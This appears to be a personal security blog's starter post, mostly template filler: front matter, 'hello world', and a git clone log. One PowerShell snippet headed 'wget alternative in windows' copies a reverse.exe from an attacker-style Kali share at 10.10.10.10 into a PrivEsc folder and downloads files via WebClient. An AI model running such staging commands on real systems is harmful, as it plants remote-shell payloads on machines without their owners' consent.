 ```yaml
---
title: Writing a New Post
author:
  name: Wraithdemon
  link: https://github.com/prabhatjoshi321
date: 2021-12-08 14:10:00 +0800
categories: [Blogging, Tutorial]
tags: [writing]    # TAG names should always be lowercase
---
```



# This is a first blog post
```

hello world


```


####  wget alternative in windows
```powershell
	copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe

	$client = new-object System.Net.WebClient
	$client.DownloadFile("http://www.xyz.net/file.txt","C:\tmp\file.txt")

```
## Shell

```console
foo@bar:~$ whoami
foo
{: file="c/users/user" }
```

## Zsh

```zsh
/mnt/hgfs/c/users/prabh/documents/github                                                                    joshi@joshi
❯ git clone https://github.com/prabhatjoshi321/cyberblog.ml.git
Cloning into 'cyberblog.ml'...
remote: Enumerating objects: 6112, done.
remote: Total 6112 (delta 0), reused 0 (delta 0), pack-reused 6112
Receiving objects: 100% (6112/6112), 2.71 MiB | 415.00 KiB/s, done.
Resolving deltas: 100% (3565/3565), done.

{: .nolineno}
```
